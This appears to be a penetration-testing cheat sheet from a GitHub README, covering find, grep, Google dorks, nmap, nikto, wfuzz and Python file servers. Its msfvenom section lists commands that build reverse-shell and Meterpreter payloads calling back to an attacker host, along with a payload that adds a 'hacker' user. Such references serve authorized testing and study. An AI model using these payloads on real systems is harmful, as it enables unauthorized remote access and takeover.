 Commands/tools used frequently

# AWK

```awk 'NR=[LineNumber]' <file>``` : Get that line of file

# FIND

```find / -name flag* | grep "password"``` : Find files in / directory called flag with any character afterwards. and grep those files for password.

```find / -perm -u=s -type f 2>/dev/null``` : Find files with SUID bit set (-g=s SGID, for set group id) in / send errors to null.

# Google Dorks

```site:<sitename> 'word'``` : Search within particular site

```filetype:pdf``` : Search for particular filetype

```cache:<sitename>``` : View cached version
  
```intitle:<phrase>``` : Appears in title

```eg intitle:index of``` 

# GREP

```grep -rnw <directory> -e <string>``` 

```grep -r /dev -e '4bceb.\{27\}'``` : String starting with 4bceb of length 32. (len(4bceb) + 27 = 32)

```grep -- <-n>``` : Grepping a string with dash (such as -n) needs double dash first. 

*-r : Recursive, read  all  files under each directory
*-w : Select only those lines containing matches that form  whole words.  The test is that the matching substring must either be at the beginning of the line, or preceded by a  non-word constituent character.  Similarly, it must be either at the end of the line  or  followed  by  a  non-word  constituent character.    Word-constituent   characters   are  letters, digits, and the underscore.  This option has no  effect  if -x is also specified.
*-a : Process  a  binary  file  as  if  it  were  text
*-i : Ignore  case  distinctions
*-e : Interpret pattern as an extended regular expression

# MSFVENOM

## One liner

```msfvenom -p cmd/unix/reverse_bash lhost=192.168.1.103 lport=1111 R``` : One-liner raw payload, can be used in places like command injection. 

## Binaries Payloads

```msfvenom -l``` : List payloads

```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf``` : Linux Meterpreter Reverse Shell

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe```: Windows Meterpreter Reverse TCP Shell

```msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho``` : Mac Reverse Shell

## Web Payloads

PHP Meterpreter Reverse TCP
```msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php```
```cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php```

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp``` : JSP Java Meterpreter Reverse TCP

## Scripting Payloads

```msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py``` : Python Reverse Shell

```msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh``` : Bash Unix Reverse Shell

## Shellcode

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>``` : Windows Meterpreter Reverse TCP Shellcode

```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>``` : Linux Meterpreter Reverse TCP Shellcode

```msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>``` : Mac Reverse TCP Shellcode

## Create User

```msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe``` > adduser.exe

## Metasploit Handler
use exploit/multi/handler

set PAYLOAD <Payload name>
  
Set RHOST <Remote IP>
  
set LHOST <Local IP>
  
set LPORT <Local Port>
  
Run

# NMAP 

```nmap <IP> -sU``` : Nmap UDP scan 

```nmap <IP> -oA filename``` : Output the nmap scan in 3 major formats 

```nmap -p- -SV -A <IP>``` : Nmap scan to do service and OS detection and scan all ports 

[https://www.stationx.net/nmap-cheat-sheet/]

[https://highon.coffee/blog/nmap-cheat-sheet/]

# Nikto

```nikto -h <IP>```

# Directories of interest (linux)

```/etc/```

```/etc/passwd```

```/etc/fstab```

```/etc/hosts```

```/etc/init.d```

```/usr/sbin```

[https://www.digitalocean.com/community/tutorials/how-to-use-passwd-and-adduser-to-manage-passwords-on-a-linux-vps]

display the first few lines of a file ```head file.txt```
display the last few lines of a file ```tail file.txt```

# Web-Server

```Python -m SimpleHTTPServer 80``` : Spins up a webserver in the directory you are located on port 80.

```Python3 -m http.server 80``` : Spins up a python version 3.X web server in the directory you are located on port 80.

```Python -m pyftpdlib -p 21 -w``` : Spins up a FTP server in the directory you are located on port 21 and it allows anonymous login access.

```Python3 -m pyftpdlib -p 21 -w``` : Spins up a Python 3.X FTP server in the directory you are located on port 21 and it allows anonymous login access.

# Wfuzz
Web application bruteforcer it can be used for finding resources not linked directories, servlets, scripts, etc, bruteforce GET and POST parameters for checking different kind of injections. https://wfuzz.readthedocs.io/en/latest/index.html

```wfuzz -c -z file,/usr/share/wordlists/dirb/big.txt --hc 404 http://192.168.1.1/FUZZ/ > output.txt``` 
* -c : Shows the output in color, 
* -z : Specifies what will replace FUZZ in the request. For example -z file,big.txt will read through all the lines of big.txt and replace FUZZ with, 
* --hc : Don't show certain http response codes

sudo apt-get install wfuzz

pip3 install wfuzz

